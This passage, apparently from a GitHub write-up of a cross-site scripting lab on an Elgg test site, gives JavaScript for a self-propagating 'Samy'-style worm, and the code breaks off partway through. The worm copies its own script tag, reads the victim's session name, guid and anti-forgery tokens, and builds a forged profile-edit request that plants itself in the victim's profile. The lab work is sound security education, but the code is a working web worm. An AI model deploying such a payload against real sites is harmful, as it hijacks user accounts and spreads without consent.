 ![alt text](https://github.com/Qurat-ul-ainn/Cross-scripting-attack/blob/main/77.PNG)

# Task 6

To make the code in Task 5 self-propogating:

### DOM Approach

Do some subtle modification based on the code in Task 5:

```
<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
```